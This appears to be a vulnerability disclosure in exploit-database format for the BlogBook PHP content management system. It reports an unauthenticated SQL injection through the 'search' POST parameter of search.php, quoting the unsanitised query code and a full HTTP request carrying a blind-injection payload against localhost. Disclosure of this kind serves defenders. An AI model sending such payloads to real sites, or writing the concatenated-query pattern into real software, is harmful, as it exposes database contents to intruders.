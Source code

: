 # BlogBook search.php search Parameter SQL Injection

**Exploit Title: BlogBook search.php search Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection via the search parameter in the "search.php" script. An unauthenticated attacker can exploit this by submitting a specially crafted search term through a POST request. This allows arbitrary SQL command execution on the backend database, potentially leading to unauthorized access to all database content, data manipulation, and denial of service.

## Vulnerability Point

`blogbook-main/search.php:25`

## Vulnerable Parameter

`search`

## Vulnerable Code

```php
               <?php


                if(isset($_POST['submit'])){
                    $search= $_POST['search'];


                $query="SELECT *FROM posts WHERE post_tags LIKE '%$search%'";
                $search_query=mysqli_query($connection, $query);

                    if(!$search_query){

                        die("query faikled".mysql_error($connection));
                    }


                $count=mysqli_num_rows($search_query);

               if($count==0){
                   include_once __DIR__ . "/includes/empty-post-view.php";
               } else {
                    $render = include_once __DIR__ . "/includes/post-view.php";
                    while($row=mysqli_fetch_assoc($search_query)){
                        $render($row);
                    }
               }
                }
?>
```
## Payload

```
POST /search.php HTTP/1.1
Host: localhost
Content-Length: 59
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=m31f0c6i8bn1rg0ouck5khsgp4
Connection: close

search=%27+AND+LENGTH%28DATABASE%28%29%29+%3E+9+%23&submit=
```

![image-20250522152652900](./assets/image-20250522152652900.png)

![image-20250522152614527](./assets/image-20250522152614527.png)
